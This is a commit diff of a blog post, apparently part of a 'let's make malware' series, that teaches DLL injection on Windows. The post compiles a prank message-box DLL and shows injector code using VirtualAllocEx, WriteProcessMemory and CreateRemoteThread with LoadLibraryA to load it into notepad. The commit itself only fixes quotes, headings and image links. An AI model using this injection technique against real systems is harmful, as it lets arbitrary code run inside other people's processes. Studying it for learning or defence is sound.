

Before and after one commit to RePRGM/rePRGM.github.io, a Jekyll site: the page built from _posts/2023-01-20-lets-make-malware-part-3.md, in a window 1280 px wide and 1400 px high, scrolled down 734 px. Shown: the whole window, without its empty margins (272-1004 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2023-01-20-lets-make-malware-part-3.md

````diff
--- a/_posts/2023-01-20-lets-make-malware-part-3.md
+++ b/_posts/2023-01-20-lets-make-malware-part-3.md
@@ -24,10 +24,11 @@ return 0;
 
 ```
 
+# Change 1
 The first thing we will change is our payload variable. We no longer need it. We will replace this with the following line:
 
 ```cpp
-char myDLLPath[] = “C:\\Windows\\Temp\\myEvilDLL.dll”;
+char myDLLPath[] = "C:\\Windows\\Temp\\myEvilDLL.dll";
 ```
 
 This new variable is what will be the absolute path of our malicious DLL. We can either create one using MSFVenom or, in keeping with the theme of this series, create our own DLL like so:
@@ -51,9 +52,9 @@ case DLL_PROCESS_ATTACH:
 Of course, this is just our template. We still need to add a few things to make this code functional and ready to compile. Our complete DLL code will look like so:
 
 ```cpp
-	#include “windows.h”
+	#include "windows.h"
 	void execute() {
-	MessageBox(NULL, "Don’t call the cops bro. It’s just a prank bro.", "You’re already under my control", MB_OK);
+	MessageBox(NULL, "Don't call the cops bro. It's just a prank bro.", "You're already under my control", MB_OK);
 }
 BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
 switch(fdwReason) {
@@ -77,6 +78,7 @@ x86_64-w64-mingw32-gcc --shared -o myEvilDLL.dll myEvilDLL.cpp
 
 Now, that we have our DLL, we can go back to our injector executable.
 
+# Change 2
 The next line we will change is line 10. That is our call to VirtualAllocEx. We will change the fourth parameter to this:
 
 ```cpp
@@ -86,16 +88,20 @@ LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof myDLLPath, MEM_COMMIT, PAGE_EXEC
 
 Before our buffer contained our shellcode, but now it contains the absolute path to our DLL.
 
+# Change 3
+
 Likewise for our call to WriteProcessMemory.
 
 ```cpp
 WriteProcessMemory(hProc, buffer, myDLLPath, sizeof myDLLPath, NULL);
 ```
 
+# Change 4
+
 Next, we need to change line 12, our call to CreateRemoteThread. It will look like this:
 
 ```cpp
-HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle(“kernel32”), “LoadLibraryA”), buffer, 0, NULL);
+HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA"), buffer, 0, NULL);
 ```
 
 To refresh, CreateRemoteThread is defined as such:
@@ -174,8 +182,8 @@ Now, we need to transfer our malicious DLL onto a test machine to the Windows\Te
 
 And there we have it! Our DLL attached to notepad and our message box popped up.
 
-[Message Box](/assets/dll_injected_msgbox.png)
+![Message Box](/assets/dll_injected_msgbox.png)
 
 To verify this, we can use process hacker to look at the loaded modules (DLLs) of the target process.
 
-[Verifying DLL attached](/assets/dll_injected.png)
+![Verifying DLL attached](/assets/dll_injected.png)
````
Also changed, not shown: other parts of _posts/2023-01-20-lets-make-malware-part-3.md (+13 -11 lines).
